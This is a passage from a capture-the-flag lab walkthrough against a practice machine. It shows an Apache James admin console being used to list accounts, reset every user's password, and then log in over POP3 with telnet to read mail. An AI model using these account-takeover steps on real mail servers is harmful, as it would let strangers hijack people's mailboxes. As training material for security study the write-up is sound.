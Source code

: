 
I can get the list of commands with :`help`

    help
    Currently implemented commands:
    help                                    display this help
    listusers                               display existing accounts
    countusers                              display the number of existing accounts
    adduser [username] [password]           add a new user
    verify [username]                       verify if specified user exist
    deluser [username]                      delete existing user
    setpassword [username] [password]       sets a user's password
    setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
    showalias [username]                    shows a user's current email alias
    unsetalias [user]                       unsets an alias for 'user'
    setforwarding [username] [emailaddress] forwards a user's email to another email address
    showforwarding [username]               shows a user's current email forwarding
    unsetforwarding [username]              removes a forward
    user [repositoryname]                   change to another user repository
    shutdown                                kills the current JVM (convenient when James is run as a daemon)
    quit                                    close connection
    

I can list users to see five accounts:

    listusers
    Existing accounts 5
    user: james
    user: thomas
    user: john
    user: mindy
    user: mailadmin
    

I can change the password for each:

    setpassword -h
    Usage: setpassword [username] [password]
    setpassword james 0xdf0xdf
    Password for james reset
    setpassword thomas 0xdf0xdf
    Password for thomas reset
    setpassword john 0xdf0xdf
    Password for john reset
    setpassword mindy 0xdf0xdf
    Password for mindy reset
    setpassword mailadmin 0xdf0xdf
    Password for mailadmin reset
    

For each account, I can now connect to TCP 110 (POP3) to check mail. works best to connect to POP3. The first user, james, has no messages:`telnet`

    root@kali# telnet 10.10.10.51 110
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    +OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
    USER james
    +OK
    PASS 0xdf0xdf
    +OK Welcome james
    LIST
    +OK 0 0
    .
    